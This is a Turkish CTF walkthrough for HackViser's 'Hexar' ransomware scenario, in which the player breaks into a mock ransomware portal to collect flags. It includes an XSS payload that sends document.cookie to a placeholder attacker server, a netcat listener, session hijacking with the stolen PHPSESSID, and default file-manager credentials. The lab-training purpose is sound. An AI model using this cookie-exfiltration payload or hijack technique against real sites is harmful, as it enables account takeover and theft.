









# Hexar CTF Çözüm Raporu

## Genel Bilgiler

- **Platform**: HackViser
- **Senaryo Adı**: Hexar
- **URL**: https://app.hackviser.com/scenarios/hexar
- **Tarih**: 7 Mart 2026

## Senaryo

Dün gece hizmet verdiğimiz kurumlardan birine siber saldırı yapıldı. İlk incelemelere göre bu bir ransomware (fidye yazılımı) saldırısı. Etkilenen bilgisayardaki tüm dosyalar şifrelenmiş; hiçbir dosya açılamıyor ve sistem kullanılamaz durumda. Saldırganlar masaüstünde READ_ME_HEXAR.txt adında bir not bırakmış. Bu notta, iletişim ve ödeme için bir bağlantı ile sisteme özel cihaz kimliği bulunuyor.

Görevin, ransomware grubuna dair bilgi toplamak ve sistemdeki verileri kurtarmak için gerekli adımları atmaktır.

### Saldırganın Notu

```
DOSYALARIN HEXAR TARAFINDAN ŞİFRELENDİ!

Bu bilgisayardaki tüm önemli dosyalar şifrelenmiştir ve artık erişilemez.
Dosyaları değiştirmeye, yeniden adlandırmaya veya silmeye çalışma — kalıcı olarak kaybedersin.

Dosyalarını geri almak için:
1) Portalımıza git: hexar1c2adk0mr1r[.]hv
2) Cihaz kimliğini gir: WIN-KH8L9J0K1L2M
3) Ödeme talimatlarını takip et.

DİKKAT:
- Bilgisayarı kapatma.
- Yetkililerle iletişime geçme.
- Ödeme ve şifre çözme anahtarı için portalımızdaki sohbeti kullan.

HEXAR
```

## Flaglar

1. **Flag 1** – Ransomware grubuna ait Bitcoin adresi nedir?
2. **Flag 2** – Şifrelenmiş verileri çözecek decrypt key nedir?
3. **Flag 3** – Ransomware grubuna ait IP adresi nedir?
4. **Flag 4** – Hedef listesinde ilk sıradaki e-posta adresi nedir?

## Pasif Tarama (Reconnaissance)

### Sisteme İlk Bakış

- Bizi bir giriş sayfası karşılıyor ve notta bırakılan bilgi ile girmemiz isteniyor. 



- Sisteme giriş yapınca bir sohbet paneli karşılıyor.

 

- İlk flag'imiz bu sayfada çıktı; üst tarafta bulunan Bitcoin bölümünde yazıyor. 



- Mesaj yolladığımız zaman bir listeden sırayla cevap geliyor gibi görünüyor.

## Aktif Tarama ve Sömürü (Exploitation)

- Sistemde gördüğümüz IP ve makinenin IP adresini taratarak bir açıklık arıyoruz:

```
nmap -A <ip>
```

- Kendi web sitemizi buluyoruz ama giriş yapamıyoruz; bizi bir pop-up karşılıyor ve şifre isteniyor.
- Daha sonra bir dizin taraması başlatıyoruz:

```
dirb http://<ip>
```

Buradan da sonuç alamıyoruz. Sistemde out-of-band XSS zafiyetini test etmek için bir sunucu kaldırıyoruz:

```
nc -lvnp 4444
```

### XSS ile Cookie Yakalama

Admininin cookie'sini almak için `document.cookie` parametresi ile bir komut yazıyoruz:

```html
<script>
new Image().src = "http://[SENIN-SUNUCU-IP'N]:4444/log?c=" + document.cookie;
</script>
```

Payload'ımız işe yaradı ve cookie bizim sunucumuza gönderildi:

```
PHPSESSID=93a1f05cf29f30d95fb3380125e0f4d0
```

Bunu F12 ile açılan panelde Application > Cookies bölümünde cookie olarak yazın ve sayfayı yenileyin.

- Artık admin panelindeyiz. 



- Kendi sohbetimize geldiğimiz zaman Flag 2'yi buluyoruz. 



### Flag 3 – IP Adresi

Şimdi IP adresi için biraz araştırma yapıyoruz. Panelin gösterdiği IP adresi doğru IP adresi değil; chat kısmında ID ile sıralama yapıldığı anlaşılıyor. İlk ID'deki sohbetin bir test sohbeti olduğunu fark edin. O sayfaya gitmek için:

```
http://<lab-ip>/d3a8f4966_admin/victim_details.php?id=1
```

adresine gidin. 



İşte buradaki IP, 3. flag'imiz.

### Flag 4 – E-posta Adresi

4. flag için RSA ve AES bölümlerinde bir düzen arasama sonuç bulamadığım için bir dirb taraması başlatıyorum:

```
dirb http://172.20.2.168/d3a8f4966_admin/
```

Bu komutu çalıştırın ve `filemanager/` uzantısını keşfedin.

## Post-Exploitation

- "Tiny File Manager" ismini Chrome'da tarayın ve exploit'i bulun.
- İçeriği biraz kurcalayın ve `admin : admin@123` kullanıcı adı ve parolasını görün ve deneyin. 



- Tebrikler, artık yönetim sistemindeyiz. 



- İçeride `hexar` klasörünü görün ve açın; içindeki `target.txt` dosyasına girin.
- İlk mail sizin 4. flag'iniz. 



## Komutlar Özeti

Kullanılan tüm komutlar:

```bash
# Ağ taraması
nmap -A <ip>

# Dizin taraması
dirb http://<ip>

# Dizin taraması (admin paneli)
dirb http://172.20.2.168/d3a8f4966_admin/

# Reverse shell sunucusu
nc -lvnp 4444
```

XSS Payload:

```html
<script>
new Image().src = "http://[SENIN-SUNUCU-IP'N]:4444/log?c=" + document.cookie;
</script>
```

İçeriği dışa aktarma:

```
pnc -lnvp 4444
```

## Öğrenilenler

- Out-of-band XSS zafiyetleri ve cookie yakalama.
- Ransomware saldırılarının izlenmesi ve araştırılması.
- Web uygulaması kimlik doğrulama mekanizmasının bypass'ı.
- Dosya yöneticisi açıklarının exploitasyonu.
- Sistem bilgilerinin toplanması ve flag çıkartılması.

## Sonuç

Tebrikler! Odayı tamamladınız.

---

> **Not:** Bu rapor HackViser Hexar senaryosu için hazırlanmıştır. Tüm görseller `images/` klasöründe bulunmaktadır ve Markdown formatında referans edilmiştir.
